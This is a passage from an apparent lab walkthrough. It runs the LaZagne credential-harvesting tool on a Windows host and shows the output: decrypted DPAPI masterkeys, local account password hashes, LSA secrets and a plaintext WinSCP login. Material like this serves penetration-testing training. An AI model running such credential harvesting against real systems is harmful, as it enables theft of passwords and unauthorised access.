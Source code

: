 Then close and open powershell, navigate to directory where your LaZagne is located, to the windows folder inside it, and run python script:
```c
.\laZagne.py all
```

This will give you this:
```c
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 356e845b-3c6e-42d4-90fe-ed3df3acbfe6
[+] System masterkey decrypted for 66c0784c-3191-4a2b-92e3-78e4d7986659
[+] System masterkey decrypted for 6a505802-6b1c-4420-bcb1-5085b201d5c0
[+] System masterkey decrypted for 83c23bf4-30df-4c94-96d6-e2c4cfcc74b2
[+] System masterkey decrypted for cbf5956a-5229-4238-838f-222660dc77e9

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::

------------------- Lsa_secrets passwords -----------------

DPAPI_SYSTEM
0000   01 00 00 00 C0 3A 4A 9B 2C 04 5E 54 55 43 F3 DC    .....:J.,.^TUC..
0010   B9 C1 81 BB 17 D6 BD CE 50 B9 FA 0F D7 94 52 15    ........P.....R.
0020   01 11 35 73 08 74 8F 7C A1 01 94 4A                ..5s.t.|...J

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   E4 FE 18 4B 25 46 81 18 BF 23 F5 A3 2A E8 36 97    ...K%F...#..*.6.
0020   6B A4 92 B3 A4 32 DE B3 91 17 46 B8 EC 63 C4 51    k....2....F..c.Q
0030   A7 0C 18 26 E9 14 5A A2 F3 42 1B 98 ED 0C BD 9A    ...&..Z..B......
0040   0C 1A 1B EF AC B3 76 C5 90 FA 7B 56 CA 1B 48 8B    ......v...{V..H.
0050   32 B3 2C 95 2E 46 50 5A 46 F7 6E 53 66 FB DA 53    2.,..FPZF.nSf..S



########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.64
Login: ubuntu
Password: FSadmin123
Port: 22
```
